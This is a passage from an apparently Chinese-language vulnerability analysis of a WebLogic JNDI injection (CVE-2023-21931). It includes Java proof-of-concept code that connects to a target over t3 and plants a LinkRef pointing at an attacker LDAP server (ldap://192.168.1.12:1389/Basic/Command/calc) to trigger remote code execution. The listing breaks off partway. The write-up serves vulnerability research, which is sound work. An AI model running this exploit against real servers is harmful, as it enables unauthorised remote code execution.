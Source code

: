 ![image-20240221172949510](assets/1709255451-a5f7ca08ca1b1de7844732af1ecc62a0.png)

可以看到这个 contents 是通过构造函数赋值的，是 LinkRef 构造函数中传入的`linkName`

![image-20240221173040840](assets/1709255451-7c2ec5ba0b941e7706b8c211a43465d7.png)

所有这个 poc 很简单

```java
import javax.naming.Context;  
import javax.naming.InitialContext;  
import java.lang.reflect.Field;  
import java.util.Hashtable;  
import weblogic.deployment.jms.ForeignOpaqueReference;  
import javax.naming.LinkRef;  
public class Main {  
    public static void main(String[] args) throws Exception {  
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";  

        // 创建用来远程绑定对象的 InitialContext  
        String url = "t3://192.168.79.146:7001"; // 目标机器  
        Hashtable env1 = new Hashtable();  
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);  
        env1.put(Context.PROVIDER_URL, url); // 目标  
        InitialContext c = new InitialContext(env1);  

        // ForeignOpaqueReference 的 jndiEnvironment 属性  
        Hashtable env2 = new Hashtable();  
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");  

        //LinkRef 类使用  
        LinkRef f = new LinkRef("ldap://192.168.1.12:1389/Basic/Command/calc");           //CVE-2023-21931  

```